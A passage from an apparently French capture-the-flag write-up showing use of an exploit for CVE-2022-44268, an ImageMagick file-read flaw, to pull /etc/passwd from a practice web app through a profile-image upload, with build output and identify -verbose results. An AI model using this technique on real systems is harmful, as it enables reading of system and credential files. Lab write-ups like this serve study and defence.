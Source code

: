 ```bash
   Compiling cve-2022-44268 v0.1.0 (/home/omnimessie/BOX/Medium/DockMagic/CVE-2022-44268)
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 2.12s
     Running `target/debug/cve-2022-44268 /ect/passwd`
```

Si l'exploit fonctionne, nous obtiendrons le contenu de /etc/passwd, après l'exécution, nous obtiendrons une image nommée image.png.

On doit maintenant faire en sorte que cette image soit traitée par **ImageMagick**, et l'image résultante contiendra le contenu du fichier que nous avons choisi dans la commande cargo.

Le seul endroit dans l'application Web où nous pouvons télécharger des images est l'endroit où nous modifions notre profil, nous téléchargeons donc l'image là-bas, puis nous la soumettons

Une fois le profil modifié ou avoir créer un nouveau compte avec l'image modifié on peut re télécharger cette image avec `wget` pour identifier toute les données avec les commandes qu'on doit suivre pour cette CVE

```bash
└─$ identify -verbose final.png 
Image:
  Filename: final.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Class: PseudoClass
  Geometry: 150x150+0+0
  Units: Undefined
  Colorspace: sRGB
  Type: Palette
  Endianness: Undefined
  Depth: 1/8-bit
  Channels: 4.0
  Channel depth:
    Red: 1-bit
    Green: 1-bit
    Blue: 1-bit
  Channel statistics:
    Pixels: 22500
    Red:
      min: 1  (1)
      max: 1 (1)
      mean: 1 (1)
      median: 1 (1)
      standard deviation: 0 (0)
      kurtosis: 0
      skewness: 0
      entropy: 0
    Green:
      min: 0  (0)
      max: 0 (0)
      mean: 0 (0)
      median: 0 (0)
      standard deviation: 0 (0)
      kurtosis: 0
      skewness: 0
      entropy: 0
    Blue:
      min: 0  (0)
      max: 0 (0)
      mean: 0 (0)
      median: 0 (0)
      standard deviation: 0 (0)
      kurtosis: 0
      skewness: 0
```